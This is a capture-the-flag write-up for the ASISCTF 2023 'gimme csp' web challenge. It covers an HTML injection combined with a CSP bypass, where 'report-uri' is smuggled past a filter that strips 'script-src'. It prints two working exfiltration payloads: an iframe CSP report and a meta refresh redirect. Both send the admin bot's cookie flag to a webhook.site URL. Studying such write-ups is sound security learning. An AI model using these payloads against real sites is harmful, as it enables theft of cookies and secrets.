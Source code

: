 ```yaml
---
title: gimme csp
date: 2024-01-08
tags: 
- web
- csp
- author-hartmannsyg
categories: ASISCTF 2023
---
```


written by {% person hartmannsyg %}

This was the *warm-up* web challenge of ASISCTF 2023 **finals**, but personally I found this to be quite hard. I didn't solve this in time but I'll just write the solution here anyways.

> hint for beginners: read about CSPs and iframes and what features they can offer that you can use to *bypass* or *exfiltrate* things. The challenge isn't easy if you are new to CTFs or don't have much experience however it *should* be the easiest web challenge.

{% ccb %}
website: https://gimmecsp.asisctf.com
Admin bot: http://18.195.96.13:8001
{% endccb %}

## Intended Solution - csp violation report

The website code is as follows:
{% ccb lang:js gutter1:1-21 caption:index.js highlight:9 %}
const express = require('express')
const cookieParser = require('cookie-parser')

const app = express()
app.use(cookieParser())
app.use((req,res,next)=>{
	res.header(
		'Content-Security-Policy',
		[`default-src 'none';`, ...[(req.headers['sec-required-csp'] ?? '').replaceAll('script-src','')]] 
	)
	if(req.headers['referer']) return res.type('text/plain').send('You have a typo in your http request')
	next()
})

app.get('/',(req,res)=>{
	let gift = req.cookies.gift ?? 'ASIS{test-flag}'
	let letter = (req.query.letter ?? `You were a good kid in 2023 so here's a gift for ya: $gift$`).toString()
	res.send(`<pre>${letter.replace('$gift$',gift)}</pre>`)
})

app.listen(8000)
{% endccb %}

Firstly, you are simply able to inject html into https://gimmecsp.asisctf.com site. 

E.g. `https://gimmecsp.asisctf.com/?letter=<h1>a</h1>` gives

```html
<pre><h1>a</h1></pre>
```

`https://gimmecsp.asisctf.com/` has:
{% ccb %}
Content-Security-Policy: default-src 'none';
{% endccb %}
so it seems virtually impregnable. However, in the highlighted line in the above code box, we see that the `sec-required-csp` headers get stripped of all `script-src`, which allows us to sneak in some csp.

Normally, in a iframe, it is [impossible to specify the `report-uri` or `report-to` csps](https://w3c.github.io/webappsec-cspee/#csp-attribute). However, if we do something sneaky like:
{% ccb html:true %}
rep<span class='keyword'>script-src</span>ort-uri
    ⬇️
report-uri
{% endccb %}

so we can craft a payload that sneaks in the report-uri:

{% ccb lang:html wrapped:true %}
<iframe referrerpolicy="no-referrer" src='https://gimmecsp.asisctf.com/?letter=<img src="$gift$">' csp="default-src 'none'; repscript-srcort-uri https://webhook.site/<hook>"></iframe>
{% endccb %}

The CSP then becomes:
{% ccb %}
Content-Security-Policy: default-src 'none'; report-uri https://webhook.site/<hook>
{% endccb %}

The report-uri *reports* any violation of csp to the specified url. In this case, we are violating csp by accessing `/$gift`, which is processed to `/ASIS{test-flag}` or to the real flag on the admin bot. So we will receive 

We then host a html document that has the following payload, report it to the admin bot and in our webhook we get:
{% ccb lang:json gutter1:1-15 highlight:9 %}
{
  "csp-report": {
    "document-uri": "https://gimmecsp.asisctf.com/?letter=%3C/pre%3E%3Cimg%20src=%22$gift$%22%3E",
    "referrer": "",
    "violated-directive": "img-src",
    "effective-directive": "img-src",
    "original-policy": "default-src 'none'; report-uri https://webhook.site/<hook>",
    "disposition": "enforce",
    "blocked-uri": "https://gimmecsp.asisctf.com/ASIS%7B1m-n07-r34dy-f0r-2024-y3t-dfadb%7D",
    "line-number": 1,
    "source-file": "https://gimmecsp.asisctf.com/",
    "status-code": 200,
    "script-sample": ""
  }
}
{% endccb %}

the flag is `ASIS{1m-n07-r34dy-f0r-2024-y3t-dfadb}`

## `<meta>` redirect solution

CSPs cannot block meta redirects, so submitting something like `https://gimmecsp.asisctf.com/?letter=<meta http-equiv="refresh" content="0; url=https://webhook.site/<hook>/$gift$">` will create the following html:

```html
<pre><meta http-equiv="refresh" content="0; url=https://webhook.site/<hook>/ASIS{test-flag}"></pre>
```

and redirect to `https://webhook.site/<hook>/ASIS{test-flag}`, giving us the flag (the `test-flag` will be replaced with the real flag when submitted to the admin bot)
